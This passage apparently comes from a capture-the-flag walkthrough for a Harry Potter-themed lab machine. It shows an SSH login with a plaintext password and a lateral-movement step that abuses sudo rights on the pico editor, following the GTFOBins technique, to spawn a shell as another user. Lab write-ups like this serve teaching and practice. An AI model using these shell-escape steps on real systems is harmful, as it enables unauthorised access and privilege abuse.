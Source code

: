 **Kali**

```
ssh harry@$VICTIM
Password: wingardiumleviosa123
```

<figure><img src="../../../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>

## Lateral Movement

**Exploit:** [https://gtfobins.github.io/gtfobins/pico/](https://gtfobins.github.io/gtfobins/pico/)

**Victim**

```
sudo -l
sudo -u hermonine /usr/bin/pico
^R^X
reset; sh 1>&0 2>&0
```

<figure><img src="../../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

